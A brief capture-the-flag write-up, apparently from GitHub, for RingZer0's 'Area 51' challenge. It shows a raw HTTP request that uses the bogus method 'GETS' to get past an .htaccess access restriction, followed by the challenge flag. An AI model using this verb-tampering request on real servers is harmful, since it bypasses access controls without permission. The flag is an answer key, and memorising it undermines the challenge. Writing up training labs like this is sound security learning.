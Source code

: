 <h1>Area 51</h1>
<h3>Description</h3>
<label>Access to this area is restricted using some secure .htaccess</label>
<h3>Solution</h3>

<label>Request GETS ke link chall</label>

```console
GETS /challenges/48 HTTP/1.1
Host: ringzer0ctf.com
Cookie: PHPSESSID=6ltdo2p2u45q2g38bfp8q9t2kq; _ga=GA1.1.1024657313.1759655432; _ga_HDP708BBC0=GS2.1.s1759655432$o1$g1$t1759655450$j42$l0$h0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```
<h3>Flag</h3>
<pre>
FLAG-w4KRr557y626izv567758O52
</pre>
